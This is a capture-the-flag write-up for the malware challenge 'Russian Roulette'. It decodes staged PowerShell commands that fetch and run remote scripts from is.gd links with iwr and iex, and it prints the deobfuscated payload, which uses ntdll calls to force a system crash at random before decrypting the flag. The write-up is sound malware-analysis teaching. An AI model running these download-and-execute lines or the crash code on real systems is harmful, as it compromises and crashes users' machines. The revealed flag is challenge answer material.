




# Russian Roulette

**Description:**

<small>Author: @JohnHammond</small><br><br>My PowerShell has been acting <i>really weird!!</i> It takes a few seconds to start up, and sometimes it just crashes my computer!?!?! <b>:(</b> <br><br> <b><span style="color:red;">WARNING:</span> Please examine this challenge inside of a virtual machine  for your own security. Upon invocation there is a real possibility that your VM may crash.</b> <br><br> <b>NOTE: Archive password is <code>russian_roulette</code></b> <br><br> <b>Download the file(s) below.</b><br>


**Category:** Malware

**Difficulty:** hard

**File:** [russian_roulette.zip](russian_roulette.zip)

## Solution

Loaded the file to tria.ge for analysis.  




Found this command in the analysis:
```
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -e aQB3AHIAIABpAHMALgBnAGQALwB6AGQANABoAFoAbgAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=
```

Decoded it to show `iwr is.gd/zd4hZn -o $env:TMP/.cmd;& $env:TMP/.cmd`

This command downloads a file named `powershell.zip` from is.gd/zd4hZn, which turns out to be a unicode text file.


Ran strings command `strings powershell.zip > stringsPowershell` and the output resembles an obfucated batch file.



Used batch interpreter to deobfuscate: 
`python3 ~/Downloads/batch_deobfuscator-master/batch_deobfuscator/batch_interpreter.py --file stringsPowershell > deobfuscate.txt` 

The output revealed commands execuiting `cmd /c exit [some number]` repeatedly, which matched the tria.ge analysis. 


Noticed another command: 
`powershell  -e aQB3AHIAIABpAHMALgBnAGQALwBRAFIARAB5AGkAUAB8AGkAZQB4AA==` 

That decods to `iwr is.gd/QRDyiP|iex` 

It downloads a file named conhost.log. Running `file` on it revealed it was ASCII text.

After formatting the file
```C#
$s='
	using System;
	using System.Text;
	using System.Security.Cryptography;
    using System.Runtime.InteropServices;
	using System.IO;

	public class X
	{
		[DllImport("ntdll.dll")]
		public static extern uint RtlAdjustPrivilege(int p,bool e,bool c,out bool o);

		[DllImport("ntdll.dll")]
		public static extern uint NtRaiseHardError(uint e,uint n,uint u,IntPtr p,uint v,out uint r);

		public static unsafe string Shot()
		{
			bool o;
			uint r;
			RtlAdjustPrivilege(19,true,false,out o);
			NtRaiseHardError(0xc0000022,0,0,IntPtr.Zero,6,out r);

			byte[]c=Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");

			byte[]k=Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");

			byte[]i=Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==");

			using(Aes a=Aes.Create())
			{
				a.Key=k;
				a.IV=i;
				ICryptoTransform d=a.CreateDecryptor(a.Key,a.IV);
				using(var m=new MemoryStream(c))
				using(var y=new CryptoStream(m,d,CryptoStreamMode.Read))
				using(var s=new StreamReader(y))
				{
					return s.ReadToEnd();
				}
			}
		}
	}';

	$c=New-Object System.CodeDom.Compiler.CompilerParameters;
	$c.CompilerOptions='/unsafe';
	$a=Add-Type -TypeDefinition $s -Language CSharp -PassThru -CompilerParameters $c;
	if((Get-Random -Min 1 -Max 7) -eq 1)
	{
		[X]::Shot()
	}
Start-Process "powershell.exe"
```

The code performs AES decryption on the base64 encoded strings. 

Used the following C# code to extract the flag:

```C#
using System;
using System.Text;
using System.Security.Cryptography;
using System.Runtime.InteropServices;
using System.IO;

public class roulette
{
    public static void Main(string[] args)
    {
        
		byte[]c=Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");

		byte[]k=Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");

		byte[]i=Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==");
		
		string output;
		
			using(Aes a=Aes.Create())
			{
				a.Key=k;
				a.IV=i;
				ICryptoTransform d=a.CreateDecryptor(a.Key,a.IV);
				using(var m=new MemoryStream(c))
				using(var y=new CryptoStream(m,d,CryptoStreamMode.Read))
				using(var s=new StreamReader(y))
				{
					output = s.ReadToEnd();
				}
			}
		Console.WriteLine(output);
    }
}
```
The final flag of `flag{4e4f266d44717ff3af8bd92d292b79ec}`